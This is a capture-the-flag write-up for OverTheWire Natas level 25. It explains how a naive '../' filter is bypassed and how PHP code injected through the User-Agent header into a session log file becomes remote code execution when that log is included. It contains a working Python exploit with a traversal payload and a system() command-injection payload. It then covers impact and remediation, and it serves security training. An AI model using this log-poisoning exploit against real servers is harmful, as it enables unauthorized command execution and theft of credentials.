

# [Over The Wire (natas)] – [[Platform](http://natas25.natas.labs.overthewire.org/)] – [10/06/2025]

## Objective
Find the password for the next Natas level by exploiting the vulnerability on this page.  

## Environment / Platform
- Platform: OverTheWire – Natas
- Level: [25]
- Difficulty: [Medium]

## Tools Used
- Chromium Browser

## Login
1. Logged in with credentials:
   - **Username**: `natas25
   - **Password**: `XXXXXX`
  
2. Screenshot:
   
   
   - this prompted that I should check the sourcecode by clicking the link `http://natas25.natas.labs.overthewire.org/index-source.html`

3. Observed Page Content

```php
      function setLanguage(){
         /* language setup */
         if(array_key_exists("lang",$_REQUEST))
               if(safeinclude("language/" . $_REQUEST["lang"] ))
                  return 1;
         safeinclude("language/en"); 
      }
```
   - This function checks if the key "lang" is present in the request and if so will check if we append "language/" with the "lang" that it's safe and if so return 1 otherwise return safeincluding the default "language/en"


```php
      function safeinclude($filename){
         // check for directory traversal
         if(strstr($filename,"../")){
               logRequest("Directory traversal attempt! fixing request.");
               $filename=str_replace("../","",$filename);
         }
         // dont let ppl steal our passwords
         if(strstr($filename,"natas_webpass")){
               logRequest("Illegal file access detected! Aborting!");
               exit(-1);
         }
         // add more checks...

         if (file_exists($filename)) { 
               include($filename);
               return 1;
         }
         return 0;
      }
```
   - This function checks if the filename contains "../" if so will log a note and replace "../" with with empty string. Then it checks if the input contains "natas_webpass" and if so, will log note and exit with a negative -1 error code. Then checks if the filename exists as a file on the server, if so then load and run the file and return 1 for success. Otherwise return 0 if not found.


```php
      function listFiles($path){
         $listoffiles=array();
         if ($handle = opendir($path))
               while (false !== ($file = readdir($handle)))
                  if ($file != "." && $file != "..")
                     $listoffiles[]=$file;
         
         closedir($handle);
         return $listoffiles;
      }
```
   - This function starts by instantiating an empty array as listoffiles. Then opens the pathand while you can keep going continue going by checking that the directory isn't pointing to the current or parent directory. Then each file is added to the array and you close the directory and return the list of directories. 


```php
      function logRequest($message){
         $log="[". date("d.m.Y H::i:s",time()) ."]";
         $log=$log . " " . $_SERVER['HTTP_USER_AGENT'];
         $log=$log . " \"" . $message ."\"\n"; 
         $fd=fopen("/var/www/natas/natas25/logs/natas25_" . session_id() .".log","a");
         fwrite($fd,$log);
         fclose($fd);
      }
```
   - This function takes in a message input and then starts a string with the current date adn time. Then it appends to the string the type of user's device used. Then it appends the input within parenthesis and ending with newline. Then if opens (or creates if non-existant) a log file the session_id. Then it writes the content of the logged notes, closes to save the file. 


```php
      foreach(listFiles("language/") as $f) echo "<option>$f</option>"
```
   - This function loops through all of the listfiles in the directory "language/" and prints out as HTML element option.


```php
      session_start();
      setLanguage();
      
      echo "<h2>$__GREETING</h2>";
      echo "<p align=\"justify\">$__MSG";
      echo "<div align=\"right\"><h6>$__FOOTER</h6><div>";
```
   - This code section starts a session, sets the language and then prints out a custom greeting and a custom message, then a customer footer note. 


---

     
4. Steps taken (Local File Inclusion to Remote Code Execution):

   1. First thing I explored was what would happened when changing the dropdown select for "language". Any language not in the option returned English by default. 

   2. After checking the source code I noticed that we could log incidents in 2 situations. Whenever we used the `../` (characters used to escape directory in linux) or when using `natas_webpass`. The latter would result in the code exiting. 

   3. String replace would only take the literal `../` and replace it into `''`. This wouldn't trigger with a double-encoded `...././` only replacing the inner escape and preserving the remainder. 

   4. Building upon this logic and the fact that the storage directory `/var/www/natas/natas25/logs/natas25_` is about 5 levels deep. So chaining `escape_claus = '..././..././..././..././..././'` with `test_1 = f"{escape_claus}etc/passwd"` resulted in returning the contents of that directory. 

   5. The next part was the fact that in the logging of the message into the log file it concatenates the header `User-Agent` which stood out since that is vulnerable. I submitted another test with the header as `<?php system("cat /etc/natas_webpass/natas26"); ?>` but had it return the payload for "lang" as `test_2 = f"{escape_claus}var/www/natas/natas25/logs/natas25_{cookies}.log"`.

   6. This caused the function to read what was in the natas_webpass which passed through the header. Then when I tried to access the double enconded escape it triggerred a log to write the file. 

   7. This produced the flag in the response.


```python
      import requests
      from requests.auth import HTTPBasicAuth

      username = "natas25"
      password = "XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX" # replace with actual

      def main():
         # --- Configuration ---
         url = f"http://{username}.natas.labs.overthewire.org/"
         auth = HTTPBasicAuth(username, password)  
         session = requests.Session()
         

         response = session.get(url, auth=auth)
         cookies = response.cookies["PHPSESSID"]
         
         escape_claus = '..././..././..././..././..././'

         test_1 = f"{escape_claus}etc/passwd"
         test_2 = f"{escape_claus}var/www/natas/natas25/logs/natas25_{cookies}.log"
         print(f"test2: {test_2}")

         headers = { "User-Agent": '<?php system("cat /etc/natas_webpass/natas26"); ?>' }

         res = session.post(url, auth=auth, data={"lang": test_2}, headers=headers)

         print(res.text)
         print("="*32)


      if __name__ == "__main__":
         main()


```


---

🔑 **Why this works**: 
   - `safeinclude()` only does a literal `str_replace("../","",...)` instead of canonicalizing the path, so crafted patterns like `..././..././` bypass the check and resolve to parent directories.

   - The application includes files based on user-controlled `lang` after `file_exists()` succeeds, enabling Local File Inclusion (LFI).

   - Log function writes attacker-controlled `User-Agent` into a session-named logfile inside the webroot (`logs/natas25_<session>.log`), creating a file that can contain PHP code.

   - Attacker can cause the server to include that logfile (via the bypassed traversal path), turning LFI into Remote Code Execution (RCE).

   - Predictable log filename (derived from `session_id()`/PHPSESSID) makes locating and including the injected log trivial.
   

---

💥 **Impact**

   - Remote code execution as the web application user (complete command execution, e.g., `system("cat /etc/natas_webpass/natas26"))`.

   - Disclosure of sensitive files (passwords, config files) and credentials (next-level password).

   - Arbitrary file read/write and potential persistence (uploading/executing further payloads).

   - Full compromise of the application environment and possible lateral movement to other resources accessible by that user.

   - High-confidence breach in confidentiality, integrity, and availability of the host.  


---
  
🛠️ **Remediation**

   - Reject inclusion of files from user input; use a strict allowlist of language identifiers and map those to internal filenames (no direct path concatenation).

   - Canonicalize and validate paths server-side (use realpath() and ensure the resolved path is inside the allowed directory).

   - Never include files that can contain user-supplied content; keep logs outside the webroot and/or mark them non-executable (no PHP parsing).

   - Sanitize or escape untrusted input before logging (strip <?php/?> or encode special characters) and avoid logging raw headers that may be treated as code.

   - Use unpredictable, non-web-accessible log filenames or store logs by server-side identifier (not directly derivable from client-controlled session values).

   - Harden file permissions so the web process cannot execute files from writable directories; consider open_basedir/disable_functions and minimize privileges.  